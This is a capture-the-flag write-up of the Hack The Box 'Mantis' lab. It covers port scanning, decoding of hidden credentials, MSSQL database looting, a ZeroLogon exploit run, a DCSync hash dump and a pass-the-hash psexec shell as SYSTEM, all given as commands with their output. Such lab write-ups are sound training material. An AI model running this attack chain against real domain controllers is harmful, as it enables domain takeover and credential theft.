


# Mantis
## Host file setup
```python
sudo nxc smb 10.129.16.242 --generate-hosts-file /etc/hosts 
SMB         10.129.16.242   445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
```
- Null auth is enabled
- SMB signing is on 
- SMBv1
- Windows server 2008

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn mantis.htb.local                               
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-10 12:03 -0400
Nmap scan report for mantis.htb.local (10.129.16.242)
Host is up (0.014s latency).
rDNS record for 10.129.16.242: MANTIS.htb.local
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1337/tcp  open  waste
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
8080/tcp  open  http-proxy
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49167/tcp open  unknown
49170/tcp open  unknown
49174/tcp open  unknown
50255/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds
```
Interesting port `1337` 

Also ms-sql open on `1433`

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389 -A --min-rate=2000 -sT -Pn mantis.htb.local
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-10 12:06 -0400
Nmap scan report for mantis.htb.local (10.129.16.242)
Host is up (0.013s latency).
rDNS record for 10.129.16.242: MANTIS.htb.local

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-04-10 16:06:59Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1337/tcp open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
1433/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2026-04-10T16:08:00+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.16.242:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-10T15:58:48
|_Not valid after:  2056-04-10T15:58:48
| ms-sql-info: 
|   10.129.16.242:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5722/tcp open  msrpc        Microsoft Windows RPC
8080/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Tossed Salad - Blog
9389/tcp open  mc-nmf       .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows 7|2008|8.1|2012|Vista|2016|10 (98%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::sp1:home_premium cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (98%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (97%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows 7 SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1 (95%), Microsoft Windows Server 2012 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
Port `8080` is a webserver and so is `1337`

## SMB (139,445)
SMB is running v1

Null auth enabled but not able to use it to enumerate shares or users

Guest account is also disabled

## HTTP (8080)
### Nuclei
```python
nuclei -u http://htb.local:8080/             

[waf-detect:aspgeneric] [http] [info] http://htb.local:8080/
[INF] Skipped htb.local:9780 from target list as found unresponsive permanently: cause="port closed or filtered" address=htb.local:9780 chain="connection refused; got err while executing http://htb.local:9780/api/v1/user_assets/nfc"
[mssql-detect] [javascript] [info] htb.local:1433
[ldap-metadata] [javascript] [info] htb.local:389 ["DefaultNamingContext: DC=htb,DC=local","DomainFunctionality: 4","ForestFunctionality: 4","DomainControllerFunctionality: 4","BaseDN: dc=389","DnsHostName: mantis.htb.local"]
[smb-version-detect:smb-version] [javascript] [info] htb.local:445 ["SMB 2.1"]
[smb2-capabilities] [javascript] [info] htb.local:445 ["["DFSSupport","LargeMTU","Leasing"]"]
[smb2-server-time] [javascript] [info] htb.local:445 ["SystemTime: 2026-04-10T16:18:12.000Z ServerStartTime: 2026-04-10T15:58:39.000Z"]
[smb-enum] [javascript] [info] htb.local:445 ["NetBIOSDomainName: HTB","DNSComputerNamen: mantis.htb.local","DNSComputerName: mantis.htb.local","ForestName: htb.local","OSVersion: 6.1.7601","NetBIOSComputerName: MANTIS"]
[smb-enum-domains] [javascript] [info] htb.local:445 ["DomainName: htb.local"]
[smb-os-detect] [javascript] [info] htb.local:445 ["Windows 7, Service Pack 1"]
[ldap-anonymous-login-detect] [javascript] [medium] htb.local:389
[microsoft-iis-version] [http] [info] http://htb.local:8080/ ["Microsoft-IIS/7.5"]
[missing-sri] [http] [info] http://htb.local:8080/ ["//fonts.googleapis.com/css?family=Lobster&subset=latin"]
[aspnet-version-detect] [http] [info] http://htb.local:8080/ ["4.0.30319"]
[aspnetmvc-version-disclosure] [http] [info] http://htb.local:8080/ ["5.2"]
[tech-detect:google-font-api] [http] [info] http://htb.local:8080/
[tech-detect:orchard] [http] [info] http://htb.local:8080/
[tech-detect:ms-iis] [http] [info] http://htb.local:8080/
[http-missing-security-headers:strict-transport-security] [http] [info] http://htb.local:8080/
[http-missing-security-headers:content-security-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:permissions-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:x-frame-options] [http] [info] http://htb.local:8080/
[http-missing-security-headers:x-content-type-options] [http] [info] http://htb.local:8080/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://htb.local:8080/
[http-missing-security-headers:clear-site-data] [http] [info] http://htb.local:8080/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:referrer-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://htb.local:8080/
[http-missing-security-headers:missing-content-type] [http] [info] http://htb.local:8080/
```
### Ffuf for subdomains
```python
nothing found
```
### Feroxbuster
```python
nothing found
```
### Website functionality
Not a whole lot here 

Login page which is not vulnerable

Found a potential IDOR at `http://htb.local:8080/Contents/Item/Display/17` but nothing there

Also potential LFI and RFI but failed at `/Users/Account/LogOn?ReturnUrl=%2F` 

No vulnerabilities associated with the CMS

## HTTP (1337)
### Nuclei
```python
nuclei -u http://htb.local:1337/             

[iis-shortname-detect] [http] [info] http://htb.local:1337/*~1*/a.aspx
[iis-shortname-detect] [http] [info] http://htb.local:1337/em0xxtxn*~1*/a.aspx
[iis-shortname-detect] [http] [info] http://htb.local:1337/*~1*/a.aspx
[waf-detect:aspgeneric] [http] [info] http://htb.local:1337/
[waf-detect:modsecurity] [http] [info] http://htb.local:1337/
[dameng-detect] [javascript] [info] htb.local:1337
[ldap-metadata] [javascript] [info] htb.local:1337 ["DomainControllerFunctionality: 4","BaseDN: dc=1337","DnsHostName: mantis.htb.local","DefaultNamingContext: DC=htb,DC=local","DomainFunctionality: 4","ForestFunctionality: 4"]
[ldap-anonymous-login-detect] [javascript] [medium] htb.local:1337
[microsoft-iis-version] [http] [info] http://htb.local:1337/ ["Microsoft-IIS/7.5"]
[options-method] [http] [info] http://htb.local:1337/ ["OPTIONS, TRACE, GET, HEAD, POST"]
[tech-detect:ms-iis] [http] [info] http://htb.local:1337/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://htb.local:1337/
[http-missing-security-headers:content-security-policy] [http] [info] http://htb.local:1337/
[http-missing-security-headers:x-content-type-options] [http] [info] http://htb.local:1337/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://htb.local:1337/
[http-missing-security-headers:clear-site-data] [http] [info] http://htb.local:1337/
[http-missing-security-headers:missing-content-type] [http] [info] http://htb.local:1337/
[http-missing-security-headers:strict-transport-security] [http] [info] http://htb.local:1337/
[http-missing-security-headers:permissions-policy] [http] [info] http://htb.local:1337/
[http-missing-security-headers:x-frame-options] [http] [info] http://htb.local:1337/
[http-missing-security-headers:referrer-policy] [http] [info] http://htb.local:1337/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://htb.local:1337/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://htb.local:1337/
[default-iis7-page] [http] [info] http://htb.local:1337/
[caa-fingerprint] [dns] [info] htb.local
```
### Ffuf for subdomains
```python
nothing found
```
### Feroxbuster
```python
feroxbuster -u http://htb.local:1337/ -C 404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

200      GET      826l     4457w   331772c http://htb.local:1337/welcome.png
200      GET       32l       53w      689c http://htb.local:1337/
500      GET       72l      241w     3026c http://htb.local:1337/orchard
301      GET        2l       10w      158c http://htb.local:1337/secure_notes => http://htb.local:1337/secure_notes/
```
### Website functionality
Landing page is a default IIS 7 page

`/secure_notes` endpoint has some interesting things:



`web.config` is empty

dev notes has this:

```python
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

Now checking this again i see more content at the bottom of dev_notes

```python
Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```


## Credentials found



Using cyberchef i am able to decode the credentials

```python
admin:@dm!n_P@ssW0rd!
```

This gets me access to the CMS

However not able to get RCE

Returning to the dev notes the name of the file is interesting to me:

```python
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```

The long section in it looks to be base64

```python
echo 'NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx' | base64 -d
6d2424716c5f53405f504073735730726421
```

```python
echo 'NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx' | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
```
Looks like ive found another password

So ill try:

```python
sa:m$$ql_S@_P@ssW0rd!
```

## Access on `ms-sql`
```python
impacket-mssqlclient htb.local/admin:'m$$ql_S@_P@ssW0rd!'@mantis.htb.local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2014 RTM (no SP) (12.0.2000)
[!] Press help for extra shell commands
SQL (admin  admin@master)> 
```
Using the same user `admin` and the password im able to get access

`xp_cmdshell` is disabled and im not able to re-enabled it

```python
SQL (admin  admin@master)> select name from master..sysdatabases;
name        
---------   
master      
tempdb      
model       
msdb        
orcharddb
```
Non default database `orcharddb`

```python
QL (admin  admin@master)> USE orcharddb
ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.
```
Ill select the `orcharddb`

```python
SQL (admin  admin@orcharddb)> SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
TABLE_NAME                                             
----------------------------------------------------   
blog_Orchard_Blogs_RecentBlogPostsPartRecord           
blog_Orchard_Blogs_BlogArchivesPartRecord              
blog_Orchard_Workflows_TransitionRecord                
blog_Orchard_Workflows_WorkflowRecord                  
blog_Orchard_Workflows_WorkflowDefinitionRecord        
blog_Orchard_Workflows_AwaitingActivityRecord          
blog_Orchard_Workflows_ActivityRecord                  
blog_Orchard_Tags_TagsPartRecord                       
blog_Orchard_Framework_DataMigrationRecord             
blog_Orchard_Tags_TagRecord                            
blog_Orchard_Tags_ContentTagRecord                     
blog_Settings_ContentFieldDefinitionRecord             
blog_Orchard_Framework_DistributedLockRecord           
blog_Settings_ContentPartDefinitionRecord              
blog_Settings_ContentPartFieldDefinitionRecord         
blog_Settings_ContentTypeDefinitionRecord              
blog_Settings_ContentTypePartDefinitionRecord          
blog_Settings_ShellDescriptorRecord                    
blog_Settings_ShellFeatureRecord                       
blog_Settings_ShellFeatureStateRecord                  
blog_Settings_ShellParameterRecord                     
blog_Settings_ShellStateRecord                         
blog_Orchard_Framework_ContentItemRecord               
blog_Orchard_Framework_ContentItemVersionRecord        
blog_Orchard_Framework_ContentTypeRecord               
blog_Orchard_Framework_CultureRecord                   
blog_Common_BodyPartRecord                             
blog_Common_CommonPartRecord                           
blog_Common_CommonPartVersionRecord                    
blog_Common_IdentityPartRecord                         
blog_Containers_ContainerPartRecord                    
blog_Containers_ContainerWidgetPartRecord              
blog_Containers_ContainablePartRecord                  
blog_Title_TitlePartRecord                             
blog_Navigation_MenuPartRecord                         
blog_Navigation_AdminMenuPartRecord                    
blog_Scheduling_ScheduledTaskRecord                    
blog_Orchard_ContentPicker_ContentMenuItemPartRecord   
blog_Orchard_Alias_AliasRecord                         
blog_Orchard_Alias_ActionRecord                        
blog_Orchard_Autoroute_AutoroutePartRecord             
blog_Orchard_Users_UserPartRecord                      
blog_Orchard_Roles_PermissionRecord                    
blog_Orchard_Roles_RoleRecord                          
blog_Orchard_Roles_RolesPermissionsRecord              
blog_Orchard_Roles_UserRolesPartRecord                 
blog_Orchard_Packaging_PackagingSource                 
blog_Orchard_Recipes_RecipeStepResultRecord            
blog_Orchard_OutputCache_CacheParameterRecord          
blog_Orchard_MediaProcessing_ImageProfilePartRecord    
blog_Orchard_MediaProcessing_FilterRecord              
blog_Orchard_MediaProcessing_FileNameRecord            
blog_Orchard_Widgets_LayerPartRecord                   
blog_Orchard_Widgets_WidgetPartRecord                  
blog_Orchard_Comments_CommentPartRecord                
blog_Orchard_Comments_CommentsPartRecord               
blog_Orchard_Taxonomies_TaxonomyPartRecord             
blog_Orchard_Taxonomies_TermPartRecord                 
blog_Orchard_Taxonomies_TermContentItem                
blog_Orchard_Taxonomies_TermsPartRecord                
blog_Orchard_MediaLibrary_MediaPartRecord              
blog_Orchard_Blogs_BlogPartArchiveRecord
```
These are all the tabled in the database

The `blog_Orchard_Users_UserPartRecord` table looks the most interesting

```python
SQL (admin  admin@orcharddb)> SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'blog_Orchard_Users_UserPartRecord'
COLUMN_NAME           
-------------------   
Id                    
UserName              
Email                 
NormalizedUserName    
Password              
PasswordFormat        
HashAlgorithm         
PasswordSalt          
RegistrationStatus    
EmailStatus           
EmailChallengeToken   
CreatedUtc            
LastLoginUtc          
LastLogoutUtc
```
This is the contents of the table

```python
SQL (admin  admin@orcharddb)> SELECT * FROM blog_Orchard_Users_UserPartRecord
Id   UserName   Email             NormalizedUserName   Password                                                               PasswordFormat   HashAlgorithm   PasswordSalt               RegistrationStatus   EmailStatus   EmailChallengeToken   CreatedUtc            LastLoginUtc          LastLogoutUtc         
--   --------   ---------------   ------------------   --------------------------------------------------------------------   --------------   -------------   ------------------------   ------------------   -----------   -------------------   -------------------   -------------------   -------------------   
 2   admin                        admin                AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==   Hashed           PBKDF2          UBwWF1CQCsaGc/P7jIR/kg==   Approved             Approved      NULL                  2017-09-01 13:44:01   2026-04-10 17:08:14   2017-09-01 14:06:31   
15   James      james@htb.local   james                J@m3s_P@ssW0rd!                                                        Plaintext        Plaintext       NA                         Approved             Approved      NULL                  2017-09-01 13:45:44   NULL                  NULL                  
SQL (admin  admin@orcharddb)> 
```
Looks like there is credentials for a user `james`

```python
james:J@m3s_P@ssW0rd!
```
These look to be domain credentials as well

Since this version of windows is so old its likely vulnerable to a lot of different things

## Domain admin
### ZeroLogon
```python
python3 cve-2020-1472-exploit.py MANTIS 10.129.17.20
Performing authentication attempts...
====================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```
The zerlogon exploit targets the domain controller machine account and sets the password to a blank string this way i can just perform a DCSync attack with `-no-pass`

### DCSync
```python
impacket-secretsdump -just-dc -no-pass MANTIS\$@10.129.17.20
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:22140219fd9432e584a355e54b28ecbb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3e330665e47f7890603b5a96bbb31e23:::
htb.local\james:1103:aad3b435b51404eeaad3b435b51404ee:71b5ea0a10d569ffac56d3b63684b3d2:::
MANTIS$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c06d7bb2e780b417445f0f55c52399de2dbd206a383be45d407b376356cd9170
Administrator:aes128-cts-hmac-sha1-96:ea5a1c528034eac55c6e97af85773352
Administrator:des-cbc-md5:c2d65b4f7abab392
krbtgt:aes256-cts-hmac-sha1-96:fb0175b25239486d1cee94e6fe7f2167017df916981c21ea0542d4460298d18e
krbtgt:aes128-cts-hmac-sha1-96:ddbab1997d4bbd7a6c591f887b739c68
krbtgt:des-cbc-md5:a113768326f10e1a
htb.local\james:aes256-cts-hmac-sha1-96:a5b5099819f72a8b932c8cf10b643fc10fa98f6ef80397c196d3977210846e56
htb.local\james:aes128-cts-hmac-sha1-96:762d8ec29ef72edb6690c52cfe6b91e3
htb.local\james:des-cbc-md5:2085528ca7b67383
MANTIS$:aes256-cts-hmac-sha1-96:7de75b8449af57628a8c5f128d4b94e670b6aeaeba37407590b5e0bd2fadd324
MANTIS$:aes128-cts-hmac-sha1-96:c3a04c3550125dee0bec73669224a0bc
MANTIS$:des-cbc-md5:252608c770c176cd
[*] Cleaning up...
```
Dumped all the hashes using a DCSync

```python
nxc smb mantis.htb.local -u 'administrator' -H '22140219fd9432e584a355e54b28ecbb'
SMB         10.129.17.20    445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.129.17.20    445    MANTIS           [+] htb.local\administrator:22140219fd9432e584a355e54b28ecbb (Pwn3d!)
```
The administrator is pwned!

### Shell as domain admin
```python
impacket-psexec htb.local/Administrator@MANTIS -hashes ':22140219fd9432e584a355e54b28ecbb'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on MANTIS.....
[*] Found writable share ADMIN$
[*] Uploading file cROAFVGM.exe
[*] Opening SVCManager on MANTIS.....
[*] Creating service eTgP on MANTIS.....
[*] Starting service eTgP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami 
nt authority\system

C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled 

C:\Windows\system32> 
```

Domain Admin!
